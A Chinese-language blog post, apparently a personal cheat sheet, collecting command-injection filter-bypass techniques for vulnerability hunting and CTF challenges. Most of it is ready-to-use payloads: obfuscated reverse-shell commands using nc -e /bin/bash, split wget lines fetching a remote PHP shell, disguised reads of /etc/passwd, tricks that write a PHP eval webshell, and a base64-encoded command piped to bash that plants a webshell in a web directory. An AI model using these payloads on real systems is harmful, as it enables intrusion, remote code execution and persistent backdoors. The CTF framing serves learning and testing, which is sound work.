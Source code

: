```yaml
---
layout: post
title: RCE Bypass (keep updated)
---
```



> # 本位介绍RCE中Bypass技巧，可用在漏洞挖掘及CTF中。

[TOC]

### 命令连接

```bash

` & || | $()

%0a 换行符

%0d 回车符

;  连续指令

a=l;b=s;$a$b 局部变量

curl `whoami`xxxx.xxx DNS管道解析
```

### 利用 \ 换行符

```bash
1>wget\

1>xxx.com.\

1>com\

1>-O\

1>she\

1>ll.p\

1>hp
```



### 利用 > 重定向

这里我们首先新建一个文件名字为你要执行的命令 我们来拿uname -a 来做例子

`touch unman\ -a`

然后将ls的结果重定向到一个临时变量a 

最后去运行它

`sh a`

最终就会得到 uname -a的执行结果

试想一下，如果我们将ls运行的结果展示为写入一句话木马的命令 再去运行sh a 就可以得到一个木马，虽然用处不大。

```shell
hacked@sinfvnction$ touch echo\ \'\<\?php\ eval\(\$_POST\[a\]\)\?\>\'\>\>2.php

hacked@sinfvnction$ ls > a

hacked@sinfvnction$ ls
2.php			a			echo '<?php eval($_POST[a])?>'>>2.php

hacked@sinfvnction$ cat 2.php
<?php eval($_POST[a])?>
```



---

`ls -t`是按照时间顺排序

http://2130706433  IP转10进制

http://0x7F000001  IP转16进制

转化网址：http://www.msxindl.com/tools/ip/ip_num.asp

### 通配符

```bash

/???/n? -e /???/b??h 127.0.0.1 6666

bin/nc -e /bin/bash 127.0.0.1 6666

/???/c?t /?t?/p??swd

\*  代表『 0 个到无穷多个』任意字符

?  代表『一定有一个』任意字符

[ ]  同样代表『一定有一个在括号内』的字符(非任意字符)。例如 [abcd] 代表『一定有一个字符， 可能是 a, b, c, d 这四个任何一个』

[ - ]  若有减号在中括号内时，代表『在编码顺序内的所有字符』。例如 [0-9] 代表 0 到 9 之间的所有数字，因为数字的语系编码是连续的！

[^ ]  若中括号内的第一个字符为指数符号 (^) ，那表示『反向选择』，例如 [^abc] 代表 一定有一个字符，只要是非 a, b, c 的其他字符就接受的意思
```


### cat flag可转换为：
```bash

cat fla[a-z]

cat fl[a]g

cat f``lag

c’a’t /f’la’g

cat fl??

cat f*

cat $(echo -n "base64加密的flag" | base64-d)

cat `echo -n "base64加密的flag" | base64-d`

c\at /fl\ag

head /`ls /|grep 'fla'

a=c;b=at;c=fl;d=ag;$a$b $c$d

```





### 利用历史执行记录来bypass

```bash

root@kali$ cat

root@kali$ fl

root@kali$ ag

root@kali$ history

1.cat

2.fl

3.ag

root@kali$ !1!2!3

flag{ea3y_bypa3s_inj3ct1on}

```





###过滤空格的时候



```bash
cat${IFS}flag

cat$IFS$9flag

<

%09 (需要php环境)

``
```

### 命令终止符

```
%00 %20
```

### 其他绕过

```bash
cat$u /etc$u/passwd$u

/?in/cat /?tc/p?sswd

/'b'i'n'/'c'a't' /'e't'c'/'p'a's's'w'd

/"b"i"n"/"w"h"i"c"h" "n"c

/b\i\n/w\h\i\c\h n\c
```

### 写文件

Windows

```
echo 48 65 6C 6C 6F 2C 57 6F 72 6C 64 21 >c.txt

生成 hex.txt，机器码对应的内容是 Hello World!

certutil -decodehex c.txt c.php

也可以base64解码

certutil -decode c.txt c.php
```

Linux
```bash
echo -e "\x61">1.txt
```

将payload加密成base64 例如 `echo '<?php @eval($_REQUEST[c]);?>'>>/var/www/c.php`
```shell
`echo${IFS}"ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}-D|bash`
```